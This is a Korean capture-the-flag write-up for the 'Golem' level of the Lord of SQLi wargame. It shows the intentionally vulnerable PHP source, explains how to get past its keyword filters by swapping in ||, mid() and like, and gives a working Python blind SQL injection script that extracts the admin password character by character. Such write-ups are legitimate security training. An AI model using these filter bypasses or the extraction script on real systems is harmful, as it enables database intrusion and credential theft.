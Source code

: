 ## Golem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**or** , **and** , **substr(** , **=** 을 필터링하고 있다.

필터링에 주의하며 앞선 Orc, Orge문제와 같이 파이썬 코드를 사용하면 된다.

or : || ,  and : && , substr() : mid() , = : like를 사용해서 우회 할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php'
cookie = {'PHPSESSID': 'Cookie 값'}

for i in range(20):
  param = {'pw': f"' || length(pw) like {i}#"}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'pw': f"' || mid(pw, {str(len)}, 1) like '{chr(pw)}'#"}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password.lower())
```
<br>
